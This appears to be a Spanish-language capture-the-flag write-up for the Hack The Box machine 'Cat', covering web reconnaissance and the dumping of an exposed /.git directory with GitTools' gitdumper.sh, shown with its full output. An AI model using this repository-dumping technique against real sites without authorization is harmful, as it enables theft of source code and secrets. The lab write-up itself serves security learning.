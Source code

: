 Intento buscar donde se guardan las imagenes subidas al servidor; En /vote.php las 3 imagenes visibles se guardan en los siguientes endpoints:

```python
http://cat.htb/img/cat3.webp
http://cat.htb/img/cat2.png
http://cat.htb/img/cat1.jpg
```

### /uploads
He probado mil maneras de acceder a la imagen pero no parece que el servidor este guardando las imagenes con el mismo nombre que se suben o igual no en ese directorio ;  Prosigo haciendo el Recon



## /.git
En el escaneo con nmap nos encuentra un repositorio de git
El endpoint da forbidden.
![[Pasted image 20250206115612.png]]
Vamos a usar la suite de herramientas de `GitTools` .
[Repositorio](https://github.com/internetwache/GitTools.git)

```bash
➜  Dumper git:(master) ./gitdumper.sh http://cat.htb/.git/ GitCatDump
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating GitCatDump/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/8c/2c2701eb4e3c9a42162cfb7b681b6166287fd5
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/c9/e281ffb3f5431800332021326ba5e97aeb2764
[+] Downloaded: objects/56/03bb235ee634e1d7914def967c26f9dd0963bb
[+] Downloaded: objects/64/d98c5af736de120e17eff23b17e22aad668718
[+] Downloaded: objects/31/e87489c5f8160f895e941d00087bea94f21315
[+] Downloaded: objects/0c/be0133fb00b13165bd7318e42e17f322daac7f
[+] Downloaded: objects/6f/ae98c9ae65a9ecbf37e821e7bafb48bcdac2bc
[+] Downloaded: objects/91/92afa265e9e73f533227e4f118f882615d3640
[+] Downloaded: objects/0f/fa90ae01a4f353aa2f6b2de03c212943412222
[+] Downloaded: objects/b8/7b8c6317f8e419dac2c3ce3517a6c93b235028
```